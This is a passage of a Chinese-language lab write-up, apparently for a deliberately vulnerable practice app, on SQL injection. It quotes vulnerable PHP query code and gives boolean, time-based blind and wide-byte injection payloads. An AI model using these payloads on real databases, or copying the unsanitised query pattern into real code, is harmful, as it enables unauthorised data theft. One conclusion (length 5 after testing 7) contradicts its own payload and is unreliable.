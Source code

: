 `注: 这里 123 是我创建的用户,可能原来是 admin,自己查一下数据库里的数据`

payload: `123' and 1=1 #` 有结果返回说明是字符型

payload: `123' and length(database())=7 #` 有结果,库名字7个字符

后面就是正常的盲注爆库步骤了,略

### 盲注(base_on_time)

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述
//     $result=execute($link, $query);
//    $html.="<p class='notice'>i don't care who you are!</p>";
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断
            $html.="<p class='notice'>i don't care who you are!</p>";
        }
    }else{

        $html.="<p class='notice'>i don't care who you are!</p>";
    }
}
```

**漏洞利用**

源码里注释说的很清楚了,不管输入的是啥,返回的都是一样的.但就算没有不同的返回值,也是存在不同的返回情况的,因为查询语句是一定会被执行的.能通过控制返回的时间来判断查询是否存在

`123' and if(length(database())=7,sleep(5),1) #` 明显延迟,说明数据库名的长度为5个字符;

后面的步骤按部就班,略

### 宽字节注入

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['name']!=null){

    $name = escape($link,$_POST['name']);
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //设置mysql客户端来源编码是gbk,这个设置导致出现宽字节注入问题
    $set = "set character_set_client=gbk";
    execute($link,$set);

    //mysqi_query不打印错误描述
    $result=mysqli_query($link, $query);
    if(mysqli_num_rows($result) >= 1){
        while ($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```
